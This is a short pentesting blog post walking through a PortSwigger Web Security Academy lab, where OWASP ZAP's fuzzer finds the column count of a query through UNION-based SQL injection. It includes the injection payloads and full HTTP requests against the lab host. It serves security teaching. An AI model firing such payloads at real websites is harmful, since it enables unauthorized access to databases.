 +++
author = "Anthony Cozamanis"
title = "Determining the Number of Columns Returned by a Query Using SQLi"
date = "2023-05-13"
description = "In this brief piece, you'll learn about using OWASP ZAP to determining the number of columns returned by a query using SQLi."
tags = [
    "owsap",
    "zap",
    "pentesting",
]
series = ["OWASP ZAP"]
+++

Note: This was part of an overall effort to complete PortSwigger's Web Security Academy without Burp Suite.

If we take the URL `https://ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net/filter?category=Accessories` it can be seen that the category parameter is being used. Nothing new there. Let's see if when we give it something unexpected, it throws an error/s. Something like `'+UNION+SELECT+NULL--` at the end, like so:

`https://ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL--`

Ok, something bad is happening, I got the following when I send a GET request to that URL:

```
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

It might be nothing, but it might not be. Let's keep adding null values until the error disappears (if at all) and see if the response includes additional content containing the null values.

ZAP fuzzer will do this easily. Here'e the base request:

```
GET https://ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net/filter?category=Accessories HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: session=FTZuxjD1runfaB9lKsJJiQbHzdbgQUwQ
Upgrade-Insecure-Requests: 1
Host: ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net
```

The setup in ZAP's Fuzzer with the fuzz location highlighted:

![f5da81b4f48e81fd2b776ddf654c4d26.png](/img/f5da81b4f48e81fd2b776ddf654c4d26.png)

The payload strings:

![57a03f00772b20b8dd4e4b27895f835a.png](/img/57a03f00772b20b8dd4e4b27895f835a.png)

The result, looking good!

![0183df5146de20552126830324cd86c7.png](/img/0183df5146de20552126830324cd86c7.png)

Here's the payload used that got the result:

```
GET https://ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net/filter?category=Accessories%20'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: session=FTZuxjD1runfaB9lKsJJiQbHzdbgQUwQ
Upgrade-Insecure-Requests: 1
Host: ac741fd61fc83ed980cb8ea0000c000a.web-security-academy.net
```

3 NULLs was the winner. Let's see what the web browser shows us with this request:

![7ec32123d821db933f9b5d7710bc59d1.png](/img/7ec32123d821db933f9b5d7710bc59d1.png)

